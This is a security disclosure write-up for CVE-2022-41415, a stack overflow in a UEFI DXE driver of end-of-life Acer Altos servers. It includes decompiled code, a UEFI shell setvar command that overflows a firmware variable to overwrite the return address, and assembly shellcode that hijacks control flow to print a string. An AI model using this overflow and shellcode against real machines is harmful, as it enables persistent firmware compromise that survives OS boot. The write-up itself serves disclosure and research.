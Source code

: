There is a stack buffer overflow vulnerability, which could lead to **arbitrary code execution in UEFI DXE driver** in the latest firmware of Acer's Altos servers. And all these affecting models are already end of life. So we decided to disclose the detail.

## Summary

Previously, we did a lot of research in existing works in UEFI security, an example is that Binarly-IO found a lot of vulnerabilities since last year. And there is also a paper in S&P2022 mainly focused on SMM callout vulnerabilities. We believe that the security of UEFI ecosystem remains construction, so we started to do some trivial works. 

This vulnerability is similar to our [another one](https://github.com/10TG/vulnerabilities/tree/main/Acer/CVE-2022-30426),which exists due to the incorrect use of the `gRT->GetVariable` service in driver `ReserveMem`.

Affecting models: Altos W2000h-W570h F4, the latest update in 2019.02.13

## Vulnerability Description

Vulnerability exists in function located offset `0x32c` in `ReserveMem`.

The latest firmware can be downloaded here: [link](https://global-download.acer.com/GDFiles/BIOS/BIOS/BIOS_Acer_R01.03.0018_A_A.zip).

```C
__int64 __fastcall sub_32C(__int64 a1, __int64 a2)
{
  ... ...
  // v18 is at offset 0x28 the parent funciton's ret address
  __int64 v18; // [rsp+EE0h] [rbp+DE0h]  
  DataSize = 1827i64;  // There is a hardcode datasize
  // the omitted code haven't change the "DataSize"
  ... ...
  // DataSize > sizeof(v18), which can cause stack overflow.
  if ( gRT->GetVariable(aReservememflag, &gSetupVariableGuid, 0i64, &DataSize, &v18) || (_BYTE)v19 != (_BYTE)v18 )
  
  ... ...
  return 0i64;
}
```

The hardcoded `DataSize` parameter is much bigger than the buffer on the stack, and if an attacker modifies the variable's value by either physical or local way, it is possible to trigger a stacke-based buffer overflow and eventually overwrite the return address. We can exploit it by update the value of the NVARM variable `ReserveMemFlag`.

## Vulnerability Analysis

We first wrote a PoC script, which overwrote the return address to "AAAA".

We can simply use a `nsh` script to set the variable's value:

```nsh
setvar ReserveMemFlag -guid ec87d643-eba4-4bb5-a1e5-3f3e36b20da9 -bs -rt -nv =4141414141414141...4141414141414141
```

After running the script, the variable `ReserveMemFlag` has been set to a large string full of "AAAA". 

Using gdb to debug, we can see that when the entry function of the driver tries to return, the return address has been overflowed to our payload.

And because the variable is stored in the NVRAM, the next time we try to load the driver, the shellcode will still be triggered thus cause an exception.

![](./CVE-2022-41415.assets/CVE-2022-41415-crash.png)

Since we are able to control the **RIP**, we can further write shellcode in the stack. There isn't ALSR or NX in UEFI DXE phase, so it's quite simple to construct the shellcode to perform a call to `ConOut->OutputString`.

Our shellcode is as following.

```assembly
mov eax, 0x79ee018  ; SystemTable
mov edx, 0x0a
mov r8, [rax+0x40]  ; SystemTable->ConOut
mov rcx, r8
call [r8+0x28]      ; SystemTable->ConOut->SetAttribute
mov eax, 0x79ee018
mov edx, 0x7e2c47a   ; The string need to Output
mov r8, [rax+0x40]
mov rcx, r8
call [r8+0x8]       ; SystemTable->ConOut->OutputString
ret
db "Pwned by 10TG", 0x0 ; UTF-16LE
```

Run the script to set variable and load the driver; we can see that the control flow is hijacked and we successfully print a string.

![](./CVE-2022-41415.assets/CVE-2022-41415-poc.gif)

In conclusion, an attacker can exploit this vulnerability to **execute arbitrary code in UEFI DXE phase**.

A **malicious code can be installed** which could **survive across an operating system (OS) boot process** and modify NVRAM area in SPI flash storage (to gain persistence on target platform).

## Credit

This vulnerability credited to [river-li](https://github.com/river-li)(Zichuan Li) and [cft789](https://github.com/cft789)(Fangtao Cao) from Wuhan University.

